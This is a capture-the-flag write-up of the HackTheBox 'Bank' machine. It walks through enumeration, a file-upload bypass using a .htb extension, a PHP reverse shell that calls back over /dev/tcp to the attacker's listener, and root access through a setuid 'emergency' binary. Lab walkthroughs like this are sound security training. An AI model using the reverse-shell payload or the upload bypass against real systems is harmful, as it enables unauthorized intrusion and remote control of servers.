 # This is a write up for the machine Bank from HackTheBox.eu

host: 10.10.10.29

Serivce Discovery
```
nmap -A 10.10.10.29

Host is up (0.23s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
| 2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|_ 256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
53/tcp open domain
| dns-nsid: 
|_ bind.version: 9.9.5–3ubuntu0.14-Ubuntu
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-title: HTB Bank — Logi
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

And we can see that we have 3 services running ssh, dns and http. I tried accessing the web server  http://10.10.10.29 but it was just the default apache site.I saw that dns was open so I edited `/etc/hosts` to contain the ip of the machine plus the name server of the machine. The default name server for all HackTheBox machines is `<name of box>.htb` so I edited the hosts file as followed

cat /etc/hosts
```
127.0.0.1 localhost
127.0.1.1 Debian
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
10.10.10.29 bank.htb
```
Now 10.10.10.29 resolves to bank.htb. I tried to do a zone transfer with dig but that didn’t give me any information, so I accessed bank.htb and we were automatically redirected to bank.htb/login.php it was a login page for the bank site, I used curl to see what was in bank.htb/ because I couldn’t access the root directory of the site it would always redirect me to /login.php with curl -v http://bank.htb you can see all the html source code for root directory of the site. Also it indicated that there was a 302 redirect.
```
< HTTP/1.1 302 Found
< Date: Fri, 25 Aug 2017 15:50:33 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9–1ubuntu4.21
< Set-Cookie: HTBBankAuth=mipq942thbgb8h1vuf94ck3u01; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< location: login.php
< Content-Length: 7322
< Content-Type: text/html
```
I then used DirBuster to find new files and directory in bank.htb. Most of the files and folders were 403,302 some were 200 I found and interesting file named support and it was 200, so I tried accessing it but were being redirected to /login.php once again. I installed this plugin on firefox called noredirect which allows to me stop any 302 redirections. For those who couldn’t get Noredirect installed on firefox because of the firefox version was outdated there was an option to install anyway at the bottom of the page. I noticed people were having trouble with that, Alternatively could’ve used either Burpsuite or Zap-Proxy to catch the request and send it through as a 200 request.

![Screenshot](https://raw.github.com/laykatz/CTF-writeups/Bank-HackTheBox/image.png)

I added http://bank.htb/login.php to the noredirect plugin so it would stop redirecting to /login.php everytime. Now I’m able to access http://bank.htb/ and we can see the transactions at the bank, and some other information… If we now go to /support.php we can see you can upload “tickets” as images, if you curl http://bank.htb/support.php and scroll through the html code you can see that the admin left him self a little nice note for himself.

> “<! — [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] →”

I created a php shell as followed
```
<?php
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.x.x/4444 0>&1’”);
```
and named it shell.php I tried uploading it as shell.php but the site only wanted images uploaded. 
Then I remember that .htb runs as php so I added the .htb extension for my php shell since it can execute as php “for debugging purposes” and the shell got uploaded. Now all I had to do is set up a netcat listener to catch the shell.

`nc -l -v -p 4444`

once we catch the shell we go into the box as `www-data` in the directory `/var/www/bank/uploads/`

`www-data@bank:/var/www/bank/uploads$`

We can go into the user’s home directory chris and get the user flag user.txt,

**Got User Flag!**

Now it's time for privilege escalation. I started by just browsing through the directories and in `/var` I found a folder named htb inside htb I found two files with execute permissions and owned by root.
```
www-data@bank:/var/htb$ ls -la 
total 16
drwxr-xr-x 3 root root 4096 Jun 14 18:25 .
drwxr-xr-x 14 root root 4096 May 29 18:41 ..
drwxr-xr-x 2 root root 4096 Jun 14 18:30 bin
-rwxr-xr-x 1 root root 356 Jun 14 18:30 emergency
```
it seems like the system administrator has left an emergency exploit in case he forgets the root password of the system…
My privilege before running the exploit

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

My privileges after running the emergency exploit
```
./emergency 
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```
and now we can get the root flag. cat /root/root.txt

**Got Root Flag!**

<a href="https://imgflip.com/gif/1zsvkv"><img src="https://i.imgflip.com/1zsvkv.gif" title="made at imgflip.com"/></a>
